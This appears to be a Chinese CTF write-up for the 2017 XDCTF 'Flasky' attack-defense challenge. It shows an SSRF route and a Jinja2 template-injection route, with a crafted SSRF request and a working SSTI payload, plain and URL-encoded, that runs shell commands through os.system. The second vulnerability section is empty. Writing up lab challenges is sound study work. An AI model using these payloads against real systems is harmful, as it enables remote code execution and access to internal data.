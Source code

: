 ## 环境编译
```
docker-compose build
docker-compose up -d
```
该题是2017年XDCTF对抗赛的第一题

## 漏洞一

### SSRF漏洞
在app目录下
排除了flask的模版和静态文件等杂项，路由主要集中在auth和main文件中，先看auth
在app目录下的auth文件夹中,先看一下他的初始化文件__init__.py
![](luffy1.png)
可以看到,应用使用了蓝厂函数，url前缀是auth，然后审查views.py,在众多的路由中，最有问题的是
`
@auth.route('/getimage/<url>')
def getimage(url):
    url = base64.b64decode(url)
    img = requests.get(url)
    return img.content
`
这很显然是一个ssrf漏洞，然后我们可以构造请求
`
http://127.0.0.1:8001/auth/getimage/aHR0cDovLzEwLjAuMC4yMTEvZmxhZy50eHQ=
`
![](luffy2.png)


#### SSTI 模版注入漏洞
在auth的开头，直接调用了
`
from jinja2 import Template
`
然后在145行一个路由直接调用了该函数
`
   145	@auth.route('/test', methods=['GET', 'POST'])
   146	def test():
   147	    if request.method == 'POST':
   148	        if valid_login(request.form['username'], request.form['password']):
   149	            f = open('/tmp/' + request.form['username'], 'w+')
   150	            f.write(request.form['x'])
   151	            f.close()
   152	            f = open('/tmp/' + request.form['username'], 'r')
   153	            txt = f.read()
   154	            template = Template(txt)
   155	            return template.render()
   156	    else:
   157	        flash('just a test')
   158	        return redirect(url_for('auth.login'))
   159
   160
   161	def valid_login(username, password):
   162	    if username == base64.b64decode(password):
   163	        return True
   164	    else:
   165	        return False
`
由于模版内容是可以被控制的，导致了SSTI的漏洞

将payload
`
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{c.__init__.func_globals['linecache'].__dict__['os'].system('touch /1.txt') }}
{% endif %}
{% endfor %}
`
编码之后
`
%7b%25%20%66%6f%72%20%63%20%69%6e%20%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%62%61%73%65%5f%5f%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%20%25%7d%0a%7b%25%20%69%66%20%63%2e%5f%5f%6e%61%6d%65%5f%5f%20%3d%3d%20%27%63%61%74%63%68%5f%77%61%72%6e%69%6e%67%73%27%20%25%7d%0a%7b%7b%63%2e%5f%5f%69%6e%69%74%5f%5f%2e%66%75%6e%63%5f%67%6c%6f%62%61%6c%73%5b%27%6c%69%6e%65%63%61%63%68%65%27%5d%2e%5f%5f%64%69%63%74%5f%5f%5b%27%6f%73%27%5d%2e%73%79%73%74%65%6d%28%27%6c%73%20%2f%27%29%20%7d%7d%0a%7b%25%20%65%6e%64%69%66%20%25%7d%0a%7b%25%20%65%6e%64%66%6f%72%20%25%7d
`

![](luffy4.png)

### ssti漏洞2

[git源码地址](https://github.com/WangYihang/Attack-With-Defense-Challenges)
[漏洞详细介绍](http://skysec.top/2018/04/15/Long-Ago-AWD-Flasky/)
[模版注入的payload](https://www.xmsec.cc/ssti-and-bypass-sandbox-in-jinja2/)
[模版注入payload2](https://kevien.github.io/2018/01/16/%E4%BB%8E%E4%B8%80%E9%81%93pentesterlab%E7%9A%84%E9%A2%98%E7%9B%AE%E8%AF%B4%E8%B5%B7/)


